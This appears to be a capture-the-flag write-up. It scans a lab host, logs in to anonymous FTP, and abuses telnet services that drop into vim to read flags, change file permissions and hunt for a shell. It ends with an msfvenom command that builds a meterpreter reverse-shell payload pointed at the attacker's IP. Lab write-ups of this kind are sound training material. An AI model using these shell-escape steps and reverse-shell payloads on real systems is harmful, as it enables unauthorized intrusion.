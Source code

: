 ## Solution

The first thing I did was run nmap on the IP address. 
```
22/tcp open ssh  
80/tcp open http 
8065/tcp open unknown
8075/tcp open ftp 
8085/tcp open telnet 
8095/tcp open telnet  
```

We have several ports to check out. Let's start with the most obvious and go to port 80 in a browser.
No web service set up.

Not enough info to get into SSH on 22.
telnet on 8065 kicks you right out.
ftp on 8075 has anonymous login - a good target
telnet on 8085 opens directly into vim - another good target
telnet on 8095 opens directly in nano - and yet another good target

Let's start with ftp. Logging in as anonymous takes you into an unknown directory that contains flags 1 and 2.
<p align="left">
  <img height=200 img src=./readme_assets/ftp2.png/>
</p>

Cat flag 1 for the first flag  

Cat flag 2 and you see `echo $FLAG2`

Telnet into 8085 and run `:echo $FLAG2` in vim for your second flag.

Things found within vim:
```
-If you exit vim you are kicked out of the connection.
-You can see the directories inside vim using `:e /` then `:e /directory_name`.
-Trying to run commands using :! from vim gives an error `Cannot execute shell /tmp/sh`. 
-After looking through many files and directories we determined that /tmp/sh was empty and not executable. 
-There is also a user frosty that has /usr/frosty/sh that is empty but is executable. We might be able to use that to get a shell.
-If you go to the /home directory you will find the user ubuntu.
-We tried all kinds of shells in vim but didn't have any luck.
-We can set permissions with `:call setfperm("/tmp/sh","rwxrwxrwx")`.
-`:e /etc/shells` gives us `/usr/busybox/sh`.
-It seems the 8065 port points to `/usr/frosty/sh`.
```
At this point we decided to try a reverse shell using metasploit in order to get a prompt outside of vim.
```
-Create your payload using `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f elf -o payload.elf`.
```